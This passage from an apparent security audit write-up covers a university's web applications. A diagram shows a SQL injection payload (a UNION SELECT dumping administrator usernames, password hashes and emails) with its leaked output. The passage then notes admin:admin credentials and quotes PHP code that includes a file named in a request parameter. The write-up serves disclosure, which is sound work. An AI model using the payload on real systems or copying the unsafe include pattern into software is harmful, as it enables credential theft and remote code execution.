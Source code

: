 
Similarly, administrator data could be extracted:


```mermaid
%%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
flowchart TD
    B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
    C["National ID</br></br>*=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -*"] --> E["quotes removed  ✅"]
    D --> G["UNION SELECT from ADMINISTRATOR executes"]
    E --> G["UNION SELECT from ADMINISTRATOR executes"]
    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -*</br></br>and with enrollment number:</br>*'OR ''*</br></br>is assigned the group number:</br><mark>10 admin admin admin $1$aE4.badsb78...5c1 admin\@fi.upm.es 1</mark>"]
```



## Weak Credentials in the Admin Portal


The admin portal managing all audited applications was protected by weak credentials, such as `admin:admin`.


This could have allowed an external attacker to take control of the data across all applications.


## Remote Code Execution via Local File Read


While reviewing the code of one of the applications, a PHP file containing the following code caught my attention:


```php
<body>
<div id="outer">
  <div id="header">
    <?php include "header.php" ?>
  </div>
  <div id="content">
    <?php include $_GET['view'] ?>
    <div class="clear"></div>
  </div>
  <?php include "footer.php" ?>
</div>
</body>
```


This file was part of the admin portal, yet it was accessible without any authentication.


In PHP, the `include` expression includes and evaluates the specified file.
